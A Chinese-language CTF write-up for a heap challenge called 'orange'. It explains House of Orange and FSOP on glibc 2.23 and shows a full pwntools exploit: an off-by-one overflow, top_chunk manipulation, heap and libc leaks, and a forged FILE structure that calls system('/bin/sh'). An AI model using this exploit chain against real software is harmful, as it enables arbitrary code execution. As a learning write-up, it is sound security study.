 # one orange 

*🍊*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |
|libc  |2.23-0ubuntu11.3|

## 解题思路

没做出来...看到off by one了，但是脑子里全是House of Einherjar，后来想到利用top_chunk，
但是就是没想到可以再利用一个可控制的堆块来控制top_chunk，明明kasio才刚用过这个技巧  
我还纳闷，只能溢出0xe8字节，但是伪造堆块就得消耗至少0x10个字节，没法写全file结构体啊！

除了off by one，剩下的就是House of Orange了，看看博客就能做

后来看了官方wp，可算看懂了，画了堆块示意图如下：

![heap layout](./assets/orange.png)

收获如下：

1. 在top_chunk被放入unsorted bin时，会产生2个0x10大小的堆块
2. 调试house of orange的时候可以用`watch *(_IO_FILE*)_IO_list_all`来关注FSOP是如何运行的，
毕竟最后一次malloc完成了很多操作，不方便观察
3. 对chunk做如下操作在这个版本是合法的：
  - `p = malloc(0x118)` -> long[35], size: 0x121
  - `p[-1] = 0x101; p[0x100 / 8] = 0x21`
  - `free(p); p[-1] = 0x1f1` now `p` in unsorted bin
  - `np = malloc(0x1e8)` -> long[61], size: 0x1f1; `p == np`

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './orange'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20790)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc.so.6')
    elf = ELF(EXE)

    def addn(idx:int, size:int):
        sh.sendlineafter(b'4.', b'1')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.sendlineafter(b'size', str(size).encode())

    def deln(idx:int) -> int:
        sh.sendlineafter(b'4.', b'2')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'delete: ')
        return int(sh.recvline(), 16)

    def edit(idx:int, cont:bytes, overflow:bool=False):
        sh.sendlineafter(b'4.', b'3')
        sh.sendlineafter(b'index', str(idx).encode())
        if overflow:
            sh.sendafter(b'cont', cont)
        else:
            sh.sendlineafter(b'cont', cont)
        
    def show(idx:int) -> bytes:
        sh.sendlineafter(b'4.', b'4')
        sh.sendlineafter(b'index', str(idx).encode())
        sh.recvuntil(b'tent:\n')
        return sh.recvuntil(b'1.')

    addn(1, 0x3d8)
    addn(2, 0x3d8)
    addn(3, 0x3d8) # prepare for page alignment

    # Step 1, construct heap layout
    addn(4, 0x1f8)
    addn(5, 0xe8)

    # Step 2, set size of chunk 4 from 0x201 to 0x2f1
    # overlapping chunk 5
    edit(3, b'0'*0x3d8 + b'\xf1', True)

    # Step 3, free chunk 4 to deceive top_chunk down to chunk 4
    heapBase = deln(4) - 0xbb0
    success(GOLD_TEXT(f'Leak heapBase: {hex(heapBase)}'))

    # Step 4, shrink top_chunk to make top_chunk in control (editable in chunk 5)
    # top_chunk.size -= 0x210
    addn(4, 0x208)

    # Step 5, mod top_chunk size from 0x20251 to 0x251
    edit(5, p64(0) + p64(0x251))

    # Step 6, malloc a chunk larger than 0x251 to sweep old top_chunk into unsorted bin
    # now in chunk 5, fd contains libc
    addn(6, 0x300)
    val = show(5)

    dumpArena = libc.symbols['__malloc_hook'] + (libc.symbols['__malloc_hook'] - libc.symbols['__realloc_hook']) * 2
    mainArena = u64(val[0x10:0x16] + b'\0\0') - 0x58 # sub unsorted bin offset
    libcBase = mainArena - dumpArena
    success(GOLD_TEXT(f'leak libcBase: {hex(libcBase)}'))
    ioListAll = libcBase + libc.symbols['_IO_list_all']
    system = libcBase + libc.symbols['system']

    file = FileStructure()
    file.flags = u64(b'/bin/sh\0')
    file._IO_read_ptr = 0x61
    file._IO_read_base = ioListAll - 0x10
    file._IO_write_ptr = 1
    file.vtable = heapBase + 0x10

    # Step 7, force file structure and set old top_chunk size from 0x231 to 0x61
    # in this case, old top_chunk falls in small_bin
    # and force vtable by the way
    edit(5, bytes(file))
    edit(1, p64(0)*3 + p64(system))

    # Step 8, malloc a chunk larger than 0x60 to trigger FSOP
    addn(7, 0x100)

    sh.clean()
    sh.interactive()
```

## 参考

[House of Orange](https://www.cnblogs.com/ZIKH26/articles/16712469.html)
